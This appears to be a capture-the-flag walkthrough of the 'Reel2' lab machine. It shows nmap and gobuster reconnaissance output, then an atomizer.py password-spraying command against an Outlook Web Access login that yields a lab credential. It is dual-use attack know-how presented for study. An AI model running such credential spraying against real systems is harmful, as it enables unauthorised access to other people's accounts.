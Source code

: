## reel2



#### nmap

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: 403 - Forbidden: Access is denied.
443/tcp  open  ssl/https?
|_ssl-date: 2020-10-06T10:30:19+00:00; +51s from scanner time.
6001/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc      Microsoft Windows RPC
6006/tcp open  msrpc      Microsoft Windows RPC
6007/tcp open  msrpc      Microsoft Windows RPC
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.32)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.32
|_http-title: Welcome | Wallstant



#### web

- with gobuster found some interesting directories
  - we found owa directory but we dont have any credentials

```
/aspnet_client (Status: 301)
/public (Status: 302)
/. (Status: 200)
/exchange (Status: 302)
/Public (Status: 302)
/rpc (Status: 401)
/owa (Status: 301)
/Aspnet_client (Status: 301)
/PUBLIC (Status: 302)
/aspnet_Client (Status: 301)
/ecp (Status: 301)
/ews (Status: 301)
/Exchange (Status: 302)
/ASPNET_CLIENT (Status: 301)
```

- we go port 8080 and create a account
- collect all the potential usernames and password on of them being something around summer

![image-20201123161013314](reel2.assets/image-20201123161013314.png)



#### spray toolkit

```
https://github.com/byt3bl33d3r/SprayingToolkit.git
```

- we will use to spray username and password and check if we can find any valid credetials

![image-20201123161911080](reel2.assets/image-20201123161911080.png)

```
./atomizer.py owa 10.10.10.210 ../pass64.txt ../users.txt --targetPort 443 -i 0:0:01
```

![image-20201123165006386](reel2.assets/image-20201123165006386.png)

##### credentialss.svensson

```
s.svensson:Summer2020
```



